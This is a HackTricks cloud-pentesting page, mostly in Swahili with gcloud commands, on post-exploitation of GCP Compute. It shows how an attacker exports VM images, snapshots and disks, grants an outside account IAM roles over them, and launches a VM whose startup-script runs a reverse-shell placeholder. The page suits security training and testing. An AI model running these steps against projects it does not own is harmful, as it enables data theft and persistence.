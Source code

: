 # GCP - Compute Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Compute

Kwa maelezo zaidi kuhusu Compute na VPC (Networking) angalia:

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### Export & Inspect Images locally

Hii itamruhusu mshambuliaji **kupata data iliyo ndani ya picha zilizopo tayari** au **kuunda picha mpya za VMs zinazofanya kazi** na kupata data zao bila kuwa na ufikiaji wa VM inayofanya kazi.

Inawezekana kusafirisha picha ya VM kwenye bucket kisha kuipakua na kuimount locally kwa amri:
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
Fore performing this action the attacker might need privileges over the storage bucket and for sure **privileges over cloudbuild** as it's the **service** which is going to be asked to perform the export\
Moreover, for this to work the codebuild SA and the compute SA needs privileged permissions.\
The cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` needs:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

And the SA `<project-id>-compute@developer.gserviceaccount.com` needs:

- oles/compute.storageAdmin
- roles/storage.objectAdmin

### Export & Inspect Snapshots & Disks locally

Haiwezekani kusafirisha moja kwa moja snapshots na disks, lakini inawezekana **kubadilisha snapshot kuwa disk, disk kuwa picha** na kufuata **sehemu ya awali**, kusafirisha picha hiyo ili kuikagua kwa ndani.
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Inspect an Image creating a VM

Kwa lengo la kufikia **data iliyohifadhiwa katika picha** au ndani ya **VM inayotembea** kutoka mahali ambapo mshambuliaji **ameunda picha,** inawezekana kutoa akaunti ya nje ruhusa juu ya picha:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
na kisha unda VM mpya kutoka kwake:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Ikiwa huwezi kutoa ufikiaji wa akaunti yako ya nje kupitia picha, unaweza kuzindua VM ukitumia picha hiyo katika mradi wa mwathirika na **kufanya metadata itekeleze shell ya kinyume** ili kufikia picha hiyo kwa kuongeza param:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Kwa lengo la kufikia **data iliyohifadhiwa kwenye diski au snapshot, unaweza kubadilisha snapshot kuwa diski, diski kuwa picha na kufuata hatua za awali.**

Au unaweza **kutoa akaunti ya nje ruhusa** juu ya diski (ikiwa hatua ya mwanzo ni snapshot toa ruhusa juu ya snapshot au unda diski kutoka kwake):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Unganisha diski** kwa mfano:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **SSH into the VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **Tambua Disk**: Mara tu ndani ya VM, tambua disk mpya kwa kuorodhesha vifaa vya disk. Kwa kawaida, unaweza kuipata kama `/dev/sdb`, `/dev/sdc`, n.k.
3.  **Fanya Format na Mount Disk** (ikiwa ni disk mpya au raw):

- Unda mahali pa ku-mount:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- Mount disk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Ikiwa huwezi kutoa ufikiaji kwa mradi wa nje kwa snapshot au disk, huenda ukahitaji **kufanya hatua hizi ndani ya instance katika mradi sawa na snapshot/disk**.

{{#include ../../../banners/hacktricks-training.md}}

